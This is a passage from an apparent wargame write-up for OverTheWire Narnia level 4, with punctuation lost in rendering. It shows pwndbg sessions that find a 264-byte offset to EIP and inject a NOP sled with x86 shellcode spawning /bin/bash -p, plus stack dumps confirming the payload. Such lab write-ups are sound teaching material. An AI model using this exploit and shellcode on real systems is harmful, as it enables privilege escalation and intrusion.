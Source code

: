    highlight bash   
pwndbg  r   cyclic 500                                                                 
Starting program   home 0xd4y business other overthewire narnia 4 narnia4   cyclic 500   
                                                                                                                                                                             
Program received signal SIGSEGV  Segmentation fault                                   0x63616171 in                                                                          
  
pwndbg  cyclic  l 0x63616171                                                                                                                                                  
264                                                                                                                                                                          
   endhighlight   

Therefore  we can input a maximum of 264 bytes before overwriting the eip register  Thus  we can do just as we did in  Narnia 2   h e4mp3rcoeyar   and create a payload that will fill overwrite the eip register with an address that points to shellcode  9    ftnt9  

   highlight bash   
pwndbg  r   python  c  print  A  264  B  4  x90  100  x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80                                                                                                                                                                 
Starting program   home 0xd4y business other overthewire narnia 4 narnia4   python  c  print  A  264  B  4  x90  100  x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax  
68x68x2fx62x61x73x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80         
                                           
Program received signal SIGSEGV  Segmentation fault                                     
0x42424242 in                                                                                                                                                                  
  
pwndbg  x 100x  esp 200                                                                                                                                                        
0xffffcdf8      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce08      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce18      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce28      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce38      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce48      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce58      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce68      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce78      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce88      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffce98      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffcea8      0x41414141      0x41414141      0x41414141      0x41414141           0xffffceb8      0x41414141      0x42424242      0x90909090      0x90909090           0xffffcec8      0x90909090      0x90909090      0x90909090      0x90909090           0xffffced8      0x90909090      0x90909090      0x90909090      0x90909090           0xffffcee8      0x90909090      0x90909090      0x90909090      0x90909090           0xffffcef8      0x90909090      0x90909090      0x90909090      0x90909090           0xffffcf08      0x90909090      0x90909090      0x90909090      0x90909090           0xffffcf18      0x90909090      0x90909090      0x90909090      0x99580b6a              
0xffffcf28      0x2d686652      0x52e18970      0x2f68686a      0x68736162           0xffffcf38      0x6e69622f      0x5152e389      0xcde18953      0x00000080                                                                                                   
   endhighlight   
